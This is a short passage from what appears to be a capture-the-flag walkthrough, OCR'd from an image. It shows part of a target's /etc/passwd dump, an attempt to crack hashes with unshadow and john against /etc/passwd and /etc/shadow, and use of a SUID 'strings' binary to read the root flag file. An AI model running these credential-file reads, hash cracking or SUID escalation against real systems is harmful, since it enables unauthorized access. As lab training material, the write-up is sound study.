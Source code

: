 uuidd:x:104:109::/run/uuidd:/bin/false
Debian-exim:x:105:110::/var/spool/exim4:/bin/false
messagebus:x:106:111::/var/run/dbus:/bin/false
statd:x:107:65534::/var/lib/nfs:/bin/false
avahi-autoipd:x:108:114:Avahi autoip daemon,,,:/var/lib/avahi-autoipd:/bin/false
sshd:x:109:65534::/var/run/sshd:/usr/sbin/nologin
jack:x:1000:1000:jack,,,:/home/jack:/bin/bash

14. 
Now trying to crack using john
1.
```
unshadow /etc/passwd /etc/shadow > output.db
```


2.john output.db
nothing found!!!!
15. 
as strings binary has SUID bit set, we can try to access /root/root/txt

string /root/root.txt
got root flag




